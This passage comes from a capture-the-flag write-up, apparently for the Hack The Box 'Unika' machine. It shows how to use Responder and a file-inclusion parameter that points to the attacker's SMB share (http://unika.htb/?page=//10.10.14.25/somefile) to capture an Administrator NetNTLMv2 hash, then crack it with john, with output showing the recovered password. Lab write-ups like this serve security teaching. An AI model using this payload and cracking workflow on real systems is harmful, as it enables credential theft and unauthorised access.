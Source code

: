 - In case, any error is raised regarding not begin able to start TCP server on `port 80`, it is because `port 80` is already being used by another service on the machine. The error can be circumvented by altering the `Responder.conf` file to toggle off the "HTTP" entry which is listed under the "Servers to start" section.
- ```
    Location of Responder.conf file -
    -> for default system install : /usr/share/responder/Responder.conf
    -> for github installation : /installation_directory/Responder.conf
  ```
- Setting the "HTTP" flag to "Off" under the "Servers to start" section in the `Responder.conf` file:
   -  ```
        ; Servers to start
        SQL = On
        SMB = On
        RDP = On
        Kerberos = On
        FTP = On
        POP = On
        SMTP = On
        IMAP = On
        HTTP = On
        [** SNIP **]
      ```
- With the Responder server ready, we tell the server to include a resource from our SMB server by setting the `page` parameter as follows via the web browser.
    - `http://unika.htb/?page=//10.10.14.25/somefile`
- In this case, because we have the freedom to specify the address for the SMB share, we specify the IP address of our attacking machine. Now the server tries to load the resource from our SMB server, and Responder captures enough of that to get the NetNTLMv2.
- Note: Make sure to add `http://` in the address as some browsers might opt for a Google search instead of navigating to the appropriate page.
- After sending our paylod through the web browser we get an error about not being able to load the requested file.
- But checking our listening Responder server we can see we have a NetNTLMv for the Administrator user. The NetNTLMv2 includes both the challenge (random text) and the encrypted response.

<br>

## Hash Cracking

- We can dump the hash into a file and attempt to crack it with `john`, which is a password hash cracking utility.
- We pass the hash file to `john` and crack the password for the Administrator account. The hash type is automatically identified by the `john` CLI.
- ```
    john -w=/usr/share/wordlists/rockyou.txt NetNTLMv2.txt

    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    badminton        (Administrator)     
    1g 0:00:00:00 DONE (2023-07-11 06:05) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
    Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
    Session completed. 
  ```
